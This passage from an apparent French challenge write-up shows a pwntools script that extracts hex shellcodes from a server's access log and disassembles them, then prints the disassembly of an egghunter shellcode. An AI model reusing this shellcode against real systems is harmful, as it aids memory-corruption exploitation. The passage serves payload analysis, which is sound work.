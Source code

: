 Juste par curiosité j'ai récupéré les fichiers *access.log* et *error.log* du serveur pour voir d'autres shellcodes qui ont été utilisés.  

On peut utiliser *pwntools* (c'est du Python 2) pour convertir le code hexa en assembleur :  

```python
from __future__ import with_statement, print_function
import re
import sys

from pwnlib.asm import disasm

regex = re.compile(r"HEAD\s+/?([0-9a-fA-F]+)")
shellcodes = set()

with open(sys.argv[1]) as fd:
    for line in fd:
        line = line.strip()
        search = regex.search(line)
        if not search:
            continue

        hex_code = search.group(1)
        if len(hex_code) % 2:
            continue

        if hex_code in shellcodes:
            continue

        shellcodes.add(hex_code)
        print(disasm(hex_code.decode("hex")))
        print("")
```

Les shellcodes se ressemblent malheureusement tous, seul le tag change :  

```asm
   0:   66 81 ca ff 0f          or     dx,0xfff
   5:   42                      inc    edx
   6:   52                      push   edx
   7:   6a 02                   push   0x2
   9:   58                      pop    eax
   a:   cd 2e                   int    0x2e
   c:   3c 05                   cmp    al,0x5
   e:   5a                      pop    edx
   f:   74 ef                   je     0x0
  11:   b8 33 6d 6e 33          mov    eax,0x336e6d33
  16:   8b fa                   mov    edi,edx
  18:   af                      scas   eax,DWORD PTR es:[edi]
  19:   75 ea                   jne    0x5
  1b:   af                      scas   eax,DWORD PTR es:[edi]
  1c:   75 e7                   jne    0x5
  1e:   ff e7                   jmp    edi
  20:   aa                      stos   BYTE PTR es:[edi],al
  21:   aa                      stos   BYTE PTR es:[edi],al
  22:   aa                      stos   BYTE PTR es:[edi],al
  23:   aa                      stos   BYTE PTR es:[edi],al
  24:   19 2f                   sbb    DWORD PTR [edi],ebp
  26:   55                      push   ebp
  27:   64                      fs
```
